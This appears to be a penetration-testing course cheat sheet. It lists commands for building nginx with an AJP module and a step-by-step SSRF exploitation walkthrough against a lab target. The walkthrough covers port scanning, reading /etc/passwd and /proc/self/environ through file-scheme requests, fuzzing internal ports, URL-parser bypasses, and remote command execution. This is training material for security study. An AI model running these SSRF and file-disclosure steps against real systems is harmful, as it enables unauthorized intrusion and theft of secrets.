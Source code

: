 ### Nginx Reverse Proxy & AJP

|   |   |
|---|---|
|**Command**|**Description**|
|`wget https://nginx.org/download/nginx-1.21.3.tar.gz`|Downloading nginx|
|`tar -xzvf nginx-1.21.3.tar.gz`|Extracting nginx tar file|
|`git clone https://github.com/dvershinin/nginx_ajp_module.git`|Cloning nginx_ajp source code|
|`cd nginx-1.21.3`|Navigating to nginx directory|
|`./configure --add-module=$(pwd)/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules`|Setting up the configuration for building and installing Nginx web server|
|`make`|GNU make utility to maintain groups of programs|
|`sudo make install`|Instructing the make command to execute the installation target defined in the make file|
|`sudo nginx`|Starting the nginx server|

### SSRF Exploitation Example

|   |   |
|---|---|
|**Command**|**Description**|
|`nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`|Scanning the ports of the external target|
|`curl -i -s -L http://<TARGET IP>`|Interacting with the target and following redirects|
|`nc -lvnp 8080`|Starting a netcat listener to test for SSRF|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`|Testing for SSRF vulnerability|
|`python3 -m http.server 9090`|Starting the python web server|
|`sudo pip3 install twisted`|Installing the ftp server|
|`sudo python3 -m twisted ftp -p 21 -r .`|Starting the ftp server|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`|Retrieving a remote file through the target application (HTTP Schema)|
|`curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`|Retrieving a local file through the target application (File Schema)|
|`for port in {1..65535};do echo $port >> ports.txt;done`|Generating a wordlist of possible ports|
|`ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`|Fuzzing for ports on the internal interface|
|`curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`|Interacting with the internal interface on the discovered port|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`|Interacting with the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`|Discovering web application listening in on localhost|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`|Modifying the URL to bypass the error message|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`|Requesting to disclose the /proc/self/environ file on the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`|Retrieving a local file through the target application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"`|Confirming remote code exeuction on the remote host|
|`sudo apt-get install jq`|Installing jq|
